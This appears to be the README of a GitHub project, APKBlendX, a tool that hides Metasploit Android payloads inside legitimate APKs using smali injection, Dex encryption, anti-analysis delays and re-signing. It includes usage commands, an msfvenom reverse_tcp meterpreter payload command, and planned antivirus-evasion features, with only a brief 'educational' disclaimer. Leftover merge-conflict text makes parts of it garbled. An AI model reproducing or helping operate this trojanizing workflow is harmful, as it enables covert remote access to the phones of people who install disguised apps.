

HEAD
# APKBlendX
Android Payload Stealth Injector ~ By Zeus

HEAD
# APKBlendX
Android Payload Stealth Injector ~ By Zeus

# APKBlendX - Android Payload Stealth Injector

> Created by **Zeus**

APKBlendX is a Python-based tool designed to stealthily inject Android payloads (such as Metasploit APKs) into legitimate APKs. It includes obfuscation, smali injection, Dex encryption, native library support, anti-analysis, and custom signing.

---

## 🔧 Requirements

* Python 3.7+
* Java JDK (`keytool`, `jarsigner`)
* [apktool](https://ibotpeaches.github.io/Apktool/install/)
* [zipalign](https://developer.android.com/studio/command-line/zipalign)
* Metasploit (for payload generation, optional)

---

## 📦 Installation

```bash
# Clone the repository
$ git clone https://github.com/Zeus-64Bit/APKBlendX.git
$ cd APKBlendX

# Create directories
$ mkdir -p keys build
```

---

## 🔑 Generate Keystore

```bash
$ keytool -genkeypair \
  -alias apkblendx \
  -keyalg RSA \
  -keysize 2048 \
  -validity 10000 \
  -keystore keys/apkblendx-release.keystore \
  -storepass yourpassword \
  -keypass yourpassword \
  -dname "CN=APKBlendX, OU=YOUR_NAME, O=PayloadTeam, L=CyberCity, S=Web, C=IN"
```

---

## 🛠️ Usage

```bash
python3 apkblendx.py \
  --target payload.apk \
  --legit legit.apk \
  --output build/final.apk \
  --keystore keys/apkblendx-release.keystore \
  --alias apkblendx \
  --keystore-pass yourpassword \
  [--auto-rebrand yes|no] \
  [--package-name com.example.myapp] \
  [--inject-smali path/to/smali_folder] \
  [--inject-native path/to/lib_folder] \
  [--encrypt-dex] \
  [--time-delay 5]
```

---

## 📸 Screenshot

Here's how APKBlendX looks in action:



---

## 🧰 Features

| Feature          | Description                                                            |
| ---------------- | ---------------------------------------------------------------------- |
| Auto Rebranding  | Randomizes the package name or accepts custom one                      |
| Smali Injection  | Injects arbitrary smali code into MainActivity                         |
| Native Injection | Injects `.so` native libraries to `lib/armeabi-v7a/`                   |
| Dex Encryption   | Encrypts payload `classes.dex` and injects `DexClassLoader` at runtime |
| Time Delay       | Delays payload execution for anti-analysis                             |
| Custom Signing   | Signs APK using your keystore                                          |

---

## 🧪 Generate Payload (Optional)

You can create a Metasploit payload APK:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 \
  -o payload.apk
```

---

## 🧼 Clean Build Cache

```bash
python3 apkblendx.py --help   # Will auto clean workspace
```

Or manually:

```bash
rm -rf workspace build
```

---

## 🚫 Disclaimer

APKBlendX is intended for **educational** and **ethical penetration testing** purposes only. Unauthorized use is illegal.

---

## 🙏 Credits

* Smali/Backsmali by JesusFreke
* Apktool by iBotPeaches
* Metasploit Framework
* Inspired by the Android security community

---

## 🧠 Ideas for Future

* GUI Mode
* VirusTotal evasion check
* Custom payload builder
* Emulator detection engine

---

Enjoy blending with stealth.

TG for assitance: @forrepix27
**\~ Zeus-64Bit**
78b11e6 (Initial commit of APKBlendX v1.0)
4902614 (Initial commit of APKBlendX v1.0)
